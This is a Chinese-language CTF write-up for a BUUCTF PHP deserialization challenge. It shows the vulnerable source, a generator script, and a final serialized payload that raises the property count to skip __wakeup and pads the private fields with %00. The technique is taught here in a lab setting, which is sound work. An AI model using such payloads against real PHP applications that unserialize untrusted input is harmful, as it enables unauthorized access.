 # BUUCTF php反序列化
- 关键词 目录扫描 反序列化

## 题目描述
![d948a918e4acd7e546980de5c69d7899.png](../_resources/d948a918e4acd7e546980de5c69d7899.png)

##解题思路
看到关键词备份，用dirsearch扫一下
是可以扫到www.zip这个文件的，下载下来，里面目录如下：
![2c7fd8f5303f803c0db9b4cebd67af15.png](../_resources/2c7fd8f5303f803c0db9b4cebd67af15.png)

其中，flag里面的是假的。
index.php的代码如下：
```php
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>







<div id="world">
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 85%;left: 440px;font-family:KaiTi;">因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 80%;left: 700px;font-family:KaiTi;">不愧是我！！！
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 70%;left: 640px;font-family:KaiTi;">
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
    </div>
    <div style="position: absolute;bottom: 5%;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>
</div>
<script src='http://cdnjs.cloudflare.com/ajax/libs/three.js/r70/three.min.js'></script>
<script src='http://cdnjs.cloudflare.com/ajax/libs/gsap/1.16.1/TweenMax.min.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/OrbitControls.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/Cat.js'></script>
<script  src="index.js"></script>
</body>
</html>
```

class.php的代码如下：
```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

从index.php可知参数select存在反序列化的行为。于是我们将参数值给select，但是在反序列化的时候会首先执行`__wakeup()`魔法方法，这个方法会把我们的username重新赋值，所以我们考虑如何跳过`__wakeup()`，直接执行`__destruct` （`__destruct`一定会被执行）
```
当销毁一个对象时才会调用对象的析构函数，一般情况下，销毁一个对象的触发时机为

主动调用 unset( $obj )
主动调用 $obj = NULL
程序自动结束
```

跳过wakeup就简单啦，在反序列化时，当前属性个数大于实际属性个数时，就会跳过__wakeup()。
我们执行如下代码：
```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}

$a = new Name('admin',100);
echo serialize($a);
?>
```
输出结果是
![9e575b8ff50bddced153595e4e8206dc.png](../_resources/9e575b8ff50bddced153595e4e8206dc.png)

需要注意的是，里面的方块字符，其实是空格，我们在拷贝出来的时候会丢失，需要手动填充`%00`字符。
所以最终的payload是
```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![7183434afef0a2b5183c35b61eda9948.png](../_resources/7183434afef0a2b5183c35b61eda9948.png)

## 特别注意的点
因为username和password是私有变量，变量中的类名前后会有空白符，而复制的时候会丢失，所以要加上`%00`。因此私有字段的字段名在序列化的时候，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度
![f40e013cff3da4df009924f3efc61c0c.png](../_resources/f40e013cff3da4df009924f3efc61c0c.png)
（如上图，<0x00>复制时会丢失）

